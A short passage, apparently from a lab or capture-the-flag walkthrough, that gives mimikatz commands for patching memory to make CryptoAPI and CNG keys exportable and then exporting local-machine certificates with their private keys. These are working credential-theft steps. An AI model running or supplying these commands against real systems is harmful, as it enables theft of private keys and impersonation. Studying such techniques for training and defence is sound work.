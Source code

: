 	* Patch memory to make these keys exportable
	
		```
		privilege::debug
		crypto::capi
		crypto::cng
		```

		![task4-patch](./images/task4-patch.png)

	* Use mimikatz to export the certificates
	
		```
		crypto::certificates /systemstore:local_machine /export
		```

		![task4-export](./images/task4-export.png)
